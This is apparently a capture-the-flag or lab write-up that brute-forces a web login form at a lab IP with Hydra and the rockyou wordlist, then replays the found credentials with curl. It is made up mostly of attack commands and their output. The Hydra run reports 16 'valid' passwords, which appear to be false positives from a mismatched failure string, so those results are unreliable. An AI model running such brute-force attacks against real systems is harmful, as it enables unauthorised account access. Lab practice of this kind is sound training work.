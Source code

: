 # 10.201.20.141

hydra -l <username> -P <wordlist> 10.201.20.141 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

# hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.201.20.141 http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

┌──(root㉿docker-desktop)-[/usr/share/wordlists]
└─# hydra -l molly -P rockyou.txt 10.201.20.141 http-post-form "/login:username=^USER^&password=^PASS^: error."
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these \*\*\* ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-09-25 14:46:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.201.20.141:80/login:username=^USER^&password=^PASS^: error.
[80][http-post-form] host: 10.201.20.141 login: molly password: iloveyou
[80][http-post-form] host: 10.201.20.141 login: molly password: monkey
[80][http-post-form] host: 10.201.20.141 login: molly password: 123456
[80][http-post-form] host: 10.201.20.141 login: molly password: password
[80][http-post-form] host: 10.201.20.141 login: molly password: princess
[80][http-post-form] host: 10.201.20.141 login: molly password: 1234567
[80][http-post-form] host: 10.201.20.141 login: molly password: 12345678
[80][http-post-form] host: 10.201.20.141 login: molly password: abc123
[80][http-post-form] host: 10.201.20.141 login: molly password: rockyou
[80][http-post-form] host: 10.201.20.141 login: molly password: 123456789
[80][http-post-form] host: 10.201.20.141 login: molly password: babygirl
[80][http-post-form] host: 10.201.20.141 login: molly password: lovely
[80][http-post-form] host: 10.201.20.141 login: molly password: jessica
[80][http-post-form] host: 10.201.20.141 login: molly password: daniel
[80][http-post-form] host: 10.201.20.141 login: molly password: 12345
[80][http-post-form] host: 10.201.20.141 login: molly password: nicole
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-09-25 14:46:27

![](https://velog.velcdn.com/images/agnusdei1207/post/74e3aad2-1654-40b8-b6c9-267a4640d594/image.png)

# curl -c cookie.txt -s -X GET http://10.201.20.141/login && curl -b cookie.txt -X POST http://10.201.20.141/login -d "username=molly&password=iloveyou" -i

# curl 명령어 옵션 상세 분석

## 명령어

```bash
curl -c cookie.txt -s -X GET http://10.201.20.141/login
curl -b cookie.txt -X POST http://10.201.20.141/login -d "username=molly&password=iloveyou" -i
```
